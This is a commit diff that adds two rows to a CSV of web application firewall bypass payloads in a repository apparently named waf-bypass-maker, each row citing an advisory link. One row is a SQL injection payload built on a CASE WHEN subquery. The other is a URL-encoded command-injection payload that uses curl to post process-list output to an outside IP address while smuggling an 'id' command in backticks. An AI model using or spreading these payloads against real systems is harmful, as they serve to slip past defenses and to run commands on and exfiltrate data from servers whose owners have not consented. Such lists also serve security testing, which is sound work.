

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new Bypasses

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
+row 488: https://vulners.com/github/GHSA-H374-MM57-879C?utm_source=rss&utm_medium=rss&utm_campaign=rss | (CASE+WHEN+(SELECT+1)=1+THEN+id+ELSE+updated_at+END)+ASC+ | sqli
+row 489: https://vulners.com/cve/CVE-2023-50094?utm_source=rss&utm_medium=rss&utm_campaign=rss | curl%20-X%20POST%20--data%20"$(ps%20-aux)"%20192.168.1.91/?`id` | rce
```
